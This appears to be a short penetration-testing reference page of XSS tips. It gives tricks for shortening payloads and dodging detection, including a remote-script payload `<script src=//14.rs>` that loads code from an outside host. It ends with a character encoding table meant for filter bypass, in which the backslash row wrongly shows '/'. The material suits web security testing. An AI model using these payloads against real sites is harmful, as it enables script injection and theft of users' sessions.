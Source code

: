 # XSS Tips

### Tips & Tricks

* `http(s)://` can be shortened to `//` or `/\\` or `\\`.
* `document.cookie` can be shortened to `cookie`. It applies to other DOM objects as well.
* alert and other pop-up functions don't need a value, so stop doing `alert('XSS')` and start doing `alert()`
* You can use `//` to close a tag instead of `>`.
* I have found that `confirm` is the least detected pop-up function so stop using `alert`.
* Quotes around attribute value aren't necessary as long as it doesn't contain spaces. You can use `<script src=//14.rs>` instead of `<script src="//14.rs">`
* The shortest HTML context XSS payload is `<script src=//14.rs>` \(19 chars\)

#### Awesome Encoding

| HTML | Char | Numeric | Description | Hex | CSS \(ISO\) | JS \(Octal\) | URL |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| `&quot;` | " | `&#34;` | quotation mark | u+0022 | \0022 | \42 | %22 |
| `&num;` | \# | `&#35;` | number sign | u+0023 | \0023 | \43 | %23 |
| `&dollar;` | $ | `&#36;` | dollar sign | u+0024 | \0024 | \44 | %24 |
| `&percnt;` | % | `&#37;` | percent sign | u+0025 | \0025 | \45 | %25 |
| `&amp;` | \`& | `&#38;` | ampersand | u+0026 | \0026 | \46 | %26 |
| `&apos;` | ' | `&#39;` | apostrophe | u+0027 | \0027 | \47 | %27 |
| `&lpar;` | \( | `&#40;` | left parenthesis | u+0028 | \0028 | \50 | %28 |
| `&rpar;` | \) | `&#41;` | right parenthesis | u+0029 | \0029 | \51 | %29 |
| `&ast;` | \* | `&#42;` | asterisk | u+002A | \002a | \52 | %2A |
| `&plus;` | + | `&#43;` | plus sign | u+002B | \002b | \53 | %2B |
| `&comma;` | , | `&#44;` | comma | u+002C | \002c | \54 | %2C |
| `&minus;` | - | `&#45;` | hyphen-minus | u+002D | \002d | \55 | %2D |
| `&period;` | . | `&#46;` | full stop; period | u+002E | \002e | \56 | %2E |
| `&sol;` | / | `&#47;` | solidus; slash | u+002F | \002f | \57 | %2F |
| `&colon;` | : | `&#58;` | colon | u+003A | \003a | \72 | %3A |
| `&semi;` | ;\` | `&#59;` | semicolon | u+003B | \003b | \73 | %3B |
| `&lt;` | &lt; | `&#60;` | less-than | u+003C | \003c | \74 | %3C |
| `&equals;` | = | `&#61;` | equals | u+003D | \003d | \75 | %3D |
| `&gt;` | &gt; | `&#62;` | greater-than sign | u+003E | \003e | \76 | %3E |
| `&quest;` | ? | `&#63;` | question mark | u+003F | \003f | \77 | %3F |
| `&commat;` | @ | `&#64;` | at sign; commercial at | u+0040 | \0040 | \100 | %40 |
| `&lsqb;` | \[ | `&#91;` | left square bracket | u+005B | \005b | \133 | %5B |
| `&bsol;` | / | `&#92;` | backslash | u+005C | \005c | \134 | %5C |
| `&rsqb;` | \] | `&#93;` | right square bracket | u+005D | \005d | \135 | %5D |
| `&Hat;` | ^ | `&#94;` | circumflex accent | u+005E | \005e | \136 | %5E |
| `&lowbar;` | \_ | `&#95;` | low line | u+005F | \005f | \137 | %5F |
| `&grave;` | \` | `&#96;` | grave accent | u+0060 | \0060 | \u0060 | %60 |
| `&lcub;` | { | `&#123;` | left curly bracket | u+007b | \007b | \173 | %7b |
| `&verbar;` | \| | `&#124;` | vertical bar | u+007c | \007c | \174 | %7c |
| `&rcub;` | } | `&#125;` | right curly bracket | u+007d | \007d | \175 | %7d |

